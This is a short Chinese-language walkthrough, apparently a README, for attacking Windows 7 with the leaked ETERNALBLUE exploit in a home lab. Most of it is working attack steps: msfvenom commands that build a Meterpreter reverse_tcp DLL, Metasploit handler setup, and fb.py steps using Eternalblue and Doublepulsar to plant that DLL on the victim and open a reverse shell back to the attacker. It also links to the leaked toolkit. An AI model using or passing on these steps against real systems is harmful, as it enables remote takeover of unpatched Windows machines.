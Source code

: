 # 0day
方程式 0day ETERNALBLUE
方程式 0day ETERNALBLUE 
<BR>环境部署</BR>
<BR>攻击环境:32位系统[win7 2003均可]&Kali系统</BR>
<BR>靶机环境:win7 x86</BR>
<BR>安装程序: pywin32-221.win32-py2.6与python-2.6.6[均已打包]</BR>
<BR>已经今天的主角影子经纪人公布的方程式0day ETERNALBLUE</BR>
<BR>号称入侵一切Windows主机[深切会到帝国主义的强大]</BR>
<BR> 下载地址:https://github.com/misterch0c/shadowbroker</BR>
<BR>环境介绍<BR>
<BR>攻击者win2003: 192.168.220.128</BR>
<BR>攻击者Kali：192.168.220.129</BR>
<BR>受害者win7: 192.168.220.132</BR>
<BR>攻击环节</BR>
<BR>进入Kali</BR>
<BR>msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=IP LPORT=5555 -f dll > s.dll</BR>
<BR>msfconsole 启动msf命令</BR>
<BR>msf > use exploit/multi/handler</BR>
<BR>msf > set LHOST IP</BR>
<BR>msf > set LPORT 5555</BR>
<BR>msf > set PAYLOAD windows/x64/meterpreter/reverse_tcp</BR>
<BR>msf > exploit  #开启监听后我们开始攻击配置</BR>
<BR>进入Win2003</BR>
<BR>解压shadowbroker进入windows目录，新建listeningposts目录。#这里我就不演示了</BR>
<BR>运行fb.py，创建一个攻击项目:</BR>
<BR>TargetIP输入受害者IP</BR>
<BR>CallbackIP输入攻击者IP</BR>
<BR>使用重定向 no</BR>
<BR>输入use Eternalblue</BR>
<BR>选择目标系统是根据实际情况选择</BR>
<BR>选择传输装置是选择FB</BR>
<BR>输入use Doublepulsar</BR>
<BR>目标系统:根据系统选择</BR>
<BR>种植后门:选择RunDLL</BR>
<BR>讲MSF生成的DLL木马位置写入进去</BR>
成功
